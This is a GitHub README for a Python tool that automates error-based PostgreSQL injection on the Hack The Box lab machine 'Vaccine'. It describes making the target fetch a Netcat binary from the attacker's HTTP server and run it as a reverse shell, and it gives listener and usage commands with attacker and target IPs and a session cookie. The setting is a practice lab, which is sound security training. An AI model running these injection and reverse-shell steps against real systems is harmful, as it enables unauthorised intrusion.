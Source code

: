 # PostgreSQL-Shell

## DESCRIPTION
A Python program that automates the process of error-based PostgreSQL injection RCE on the MegaCorp Car Catalogue-
Website running on of one of the Hack The Box's machine 'Vaccine'. http://10.10.10.46/dashboard.php

It provides reverse shell connection to the attacker by mainly doing the followings:
1. Copies the origial Netcat file (/usr/bin/nc) to the local /tmp directory of the attacker's machine.
2. Sets up an HTTP server on the local /tmp directory.
3. Creates a new table in the database of the target server.
4. Injects a query that initiates a file transfer command to download a Netcat binary file from attacker's machine.
5. Injects a query that executes the downloaded Netcat to initiate reverse shell.

## ORIGINAL SOURCE
https://www.aldeid.com/wiki/HackTheBox-StartingPoint-Vaccine
Modifier: lkim94

## CAUTION
The shell disconnects when there's a few minutes of inactivity.
Terminating this program's process while the shell is active can also cause unexpected disconnection.

## USAGE
1. `nc -lvnp <listen_port#>`
![PostgreSQL-ShellyPoC1](https://user-images.githubusercontent.com/83319068/130559443-c6f3554e-2a73-41a9-bb38-603e912230be.png)

2. `python3 PostgreSQL-Shell.py -L <attacker_ip> -l <listen_port#> -t <target_ip> -p <url_parameter> -c <cookie>`
![PostgreSQL-ShellyPoC2](https://user-images.githubusercontent.com/83319068/130559455-4b39932e-c68f-4cdf-bdfd-c178b7355f08.png)
![PostgreSQL-ShellyPoC3](https://user-images.githubusercontent.com/83319068/130559467-07d92f93-db36-43a7-8243-b8e5444b8733.png)

## EXAMPLE
`python3 PostgreSQL-Shell.py -L 10.10.14.44 -l 4444 -t 10.10.10.46 -p dashboard.php?search=car -c PHPSESSID=akebd2jzejfk47n3n3xucj4vem`
